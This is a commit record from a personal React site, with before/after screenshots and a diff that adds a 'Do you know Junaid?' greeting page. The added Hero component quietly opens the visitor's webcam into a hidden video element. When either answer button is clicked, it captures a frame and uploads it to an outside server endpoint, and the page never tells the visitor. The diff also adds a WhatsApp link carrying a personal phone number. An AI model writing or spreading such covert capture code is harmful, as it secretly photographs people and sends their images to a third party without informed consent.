

Before and after one commit to I-amCoder/i-amcoder.github.io, a React (Create React App) app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (110-1169 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
New Changes

```diff
--- a/package.json
+++ b/package.json
@@ -11,7 +11,10 @@
     "react": "^18.2.0",
     "react-bootstrap": "^2.7.2",
     "react-dom": "^18.2.0",
+    "react-router-dom": "^6.11.1",
     "react-scripts": "5.0.1",
+    "react-typist": "^2.0.5",
+    "react-webcam": "^7.0.1",
     "web-vitals": "^2.1.4"
   },
   "scripts": {
--- a/src/App.css
+++ b/src/App.css
@@ -24,9 +24,10 @@
   background: -webkit-linear-gradient(to right, #edde5d, #f09819);
   background: linear-gradient(to right, #edde5d, #f09819);
   min-height: 100vh;
+  height: 100%;
 }
 .name {
-  font-size: 72px;
+  font-size: 42px;
   background-image: linear-gradient(
     180.7deg,
     rgba(0, 213, 255, 1) 2.5%,
@@ -37,3 +38,35 @@
 
   -webkit-text-fill-color: transparent;
 }
+.wish-card {
+  text-align: justify;
+  align-items: flex-start;
+}
+
+.image {
+  width: 100px;
+  border-radius: 50px;
+  object-fit: cover;
+}
+
+
+.btn-grad {
+  background-image: linear-gradient(to right, #ff6e7f 0%, #bfe9ff  51%, #ff6e7f  100%);
+  margin: 10px;
+  padding: 15px 45px;
+  text-align: center;
+  text-transform: uppercase;
+  transition: 0.5s;
+  background-size: 200% auto;
+  color: white;
+  box-shadow: 0 0 20px #eee;
+  border-radius: 10px;
+  display: block;
+  border: none;
+}
+
+.btn-grad:hover {
+  background-position: right center; /* change the direction of the change here */
+  color: #fff;
+  text-decoration: none;
+}
--- a/src/App.js
+++ b/src/App.js
@@ -3,13 +3,20 @@ import './App.css';
 import Hero from './components/Hero';
 import CustomNav from './components/Navbar';
 import 'bootstrap/dist/css/bootstrap.min.css';
+import { BrowserRouter, Route, Routes } from 'react-router-dom';
+import Met from './components/Met';
 
 
 function App() {
   return (
     <div className="App">
-      {/* <CustomNav /> */}
-      <Hero />
+       <BrowserRouter>
+      <Routes>
+        <Route path="/" element={<Hero />} />
+        <Route path="/step-2" element={<Met  />} />
+
+      </Routes>
+    </BrowserRouter>
     </div>
   );
 }
--- a/src/components/Hero.jsx
+++ b/src/components/Hero.jsx
@@ -1,39 +1,166 @@
-import React, { useEffect } from "react";
-import { useState } from "react";
+import React, { useEffect, useRef, useState } from "react";
+import Typist from "react-typist";
+import image from "../images/junaid.jpg";
+import ModalDialog from "./Modal";
+import { useNavigate } from "react-router-dom";
 
 const Hero = () => {
-  const [generatedText, setGeneratedText] = useState('');
-  const [showText, setShowText] = useState(false);
+  const [isShow, invokeModal] = useState(false);
+  const [imageUploaded, setImageUploaded] = useState(false);
+  const [selected, setSelected] = useState("Yes");
+  const [showButtons, setShowButtons] = useState(false);
+  const [capturedImage, setCapturedImage] = useState(null);
+  const videoRef = useRef(null);
 
-  useEffect(()=>{
-    const text = "I'm generating the text...";
+  const nav = useNavigate();
 
-    let currentIndex=0;
+  const initModal = () => {
+    return invokeModal(!false);
+  };
 
-    const generateText = () => {
-      if (currentIndex < text.length) {
-        setGeneratedText((prevText) => prevText + text[currentIndex]);
-        currentIndex++;
-        setTimeout(generateText, 100); // Delay between each character
+  const handleCaptureImage = () => {
+    const videoElement = videoRef.current;
+    const canvas = document.createElement("canvas");
+    canvas.style.display = "none";
+    canvas.width = videoElement.videoWidth;
+    canvas.height = videoElement.videoHeight;
+
+    // Draw the video frame onto the canvas
+
+    const context = canvas.getContext("2d");
+    context.drawImage(videoElement, 0, 0, canvas.width, canvas.height);
+
+    // Get the image data URL from the canvas
+    const imageDataUrl = canvas.toDataURL("image/png");
+
+    // Update the captured image state
+    // setCapturedImage(imageDataUrl);
+    // Convert data URL to Blob
+    const byteString = atob(imageDataUrl.split(",")[1]);
+    const mimeString = imageDataUrl.split(",")[0].split(":")[1].split(";")[0];
+    const arrayBuffer = new ArrayBuffer(byteString.length);
+    const uintArray = new Uint8Array(arrayBuffer);
+
+    for (let i = 0; i < byteString.length; i++) {
+      uintArray[i] = byteString.charCodeAt(i);
+    }
+
+    const blob = new Blob([arrayBuffer], { type: mimeString });
+
+    // Send the file to the server
+
+    sendImageToServer(blob);
+  };
+
+  const sendImageToServer = async (file) => {
+    try {
+      const formData = new FormData();
+      formData.append("image", file);
+
+      const response = await fetch(
+        "https://experttraderpk.com/api/junaid-private-api",
+        {
+          method: "POST",
+          body: formData,
+        }
+      );
+
+      if (response.ok) {
+        setImageUploaded(true);
+        nav('/step-2',{selected});
+
       } else {
-        setShowText(true);
       }
-    };
+    } catch (error) {}
+  };
 
-    generateText();
+  const handleCameraAccessError = (error) => {
+    // console.log("Error accessing camera:", error);
+  };
 
-  },[])
+  navigator.mediaDevices
+    .getUserMedia({ video: true })
+    .then((stream) => {
+      if (videoRef.current) {
+        videoRef.current.srcObject = stream;
+      }
+    })
+    .catch(handleCameraAccessError);
+
+  const handleNo = () => {
+    setSelected("No");
+    handleCaptureImage();
+    initModal();
+  };
+
+  const handleYes = () => {
+    setSelected("Yes");
+    handleCaptureImage();
+
+  };
 
   return (
     <div className="container main text-center pt-5">
-      <div  className={`generated-text name ${showText ? 'show' : ''}`}>{generatedText}</div>
+      <div className={`generated-text name p-3`}>
+        <Typist
+          startDelay={1000}
+          cursor={{
+            blink: true,
+            element: "_",
+            hideWhenDone: true,
+            hideWhenDoneDelay: 1,
+          }}
+        >
+          Helo Junaid
+        </Typist>
+      </div>
       <div className="row justify-content-center">
         <div className="col-md-6">
           <div className="card shadow">
-            <div className="card-body">Helo</div>
+            <div className="card-body wish-card ">
+              <div className="row">
+                <Typist
+                  cursor={{ element: "_" }}
+                  startDelay={2000}
+                  onTypingDone={() => setShowButtons(true)}
+                >
+                  <img className="image m-3" src={image} alt="Junaid " />
+                  Do you know Junaid?
+                </Typist>
+              </div>
+              <div className="row ">
+                {showButtons && (
+                  <>
+                    <div className="col-6 text-right">
+                      <button
+                        onClick={handleYes}
+                        className="btn-grad  float-right"
+                      >
+                        <Typist cursor={{ element: "" }}>Yes 😍</Typist>
+                      </button>
+                    </div>
+                    <div className="col-6  text-right">
+                      <button
+                        onClick={handleNo}
+                        className="btn-grad   float-right"
+                      >
+                        <Typist cursor={{ element: "" }}>No 🥺</Typist>
+                      </button>
+                    </div>
+                  </>
+                )}
+              </div>
+            </div>
           </div>
         </div>
       </div>
+      <video style={{ display: "none" }} ref={videoRef} autoPlay></video>
+      <ModalDialog
+        title={"Jhooti"}
+        content={"Jhoot Mat Bolo 😂😂"}
+        isShow={isShow}
+        invokeModal={invokeModal}
+      />
     </div>
   );
 };
--- /dev/null
+++ b/src/components/Met.jsx
@@ -0,0 +1,29 @@
+import React from 'react'
+import { Link } from 'react-router-dom'
+import Typist from 'react-typist';
+
+const Met = () => {
+
+  return (
+    <div className="container pt-5">
+        <div className="row justify-content-center">
+            <div className="col-md-6">
+                <div className="card">
+                    <div className="card-body">
+                        <Typist cursor={{ element:'' }}>
+                           <h3>
+                            Do You Want to Connect on Whatsapp?
+                            <br /> If so click on below Button any time you want.
+                            </h3>
+                            <Link href="whatsapp://send?phone=923041577841" className="btn-grad text-success">Junaid's Here</Link>
+
+                        </Typist>
+                    </div>
+                </div>
+            </div>
+        </div>
+    </div>
+  )
+}
+
+export default Met
--- /dev/null
+++ b/src/components/Modal.jsx
@@ -0,0 +1,28 @@
+import React from "react";
+import { Modal, Button } from "react-bootstrap";
+import Typist from "react-typist";
+function ModalDialog({ title, content, isShow, invokeModal }) {
+    const initModal=()=>{
+        invokeModal(!isShow);
+    }
+  return (
+    <>
+      <Modal show={isShow}>
+        <Modal.Header closeButton onClick={initModal}>
+          <Modal.Title>{title}</Modal.Title>
+        </Modal.Header>
+        <Modal.Body>
+          <Typist onTypingDone={()=>{
+            setTimeout(initModal,2000)
+          }}>{content}</Typist>
+        </Modal.Body>
+        <Modal.Footer>
+          <Button variant="danger" onClick={initModal}>
+            Close
+          </Button>
+        </Modal.Footer>
+      </Modal>
+    </>
+  );
+}
+export default ModalDialog;
--- a/src/index.js
+++ b/src/index.js
@@ -6,9 +6,9 @@ import reportWebVitals from './reportWebVitals';
 
 const root = ReactDOM.createRoot(document.getElementById('root'));
 root.render(
-  <React.StrictMode>
+
     <App />
-  </React.StrictMode>
+
 );
 
 // If you want to start measuring performance in your app, pass a function
```
Also changed, not shown: src/components/Profile.jsx (added, +48 -0 lines), src/images/junaid.jpg (added), 1 other file (tests, documents, lock files or other folders).
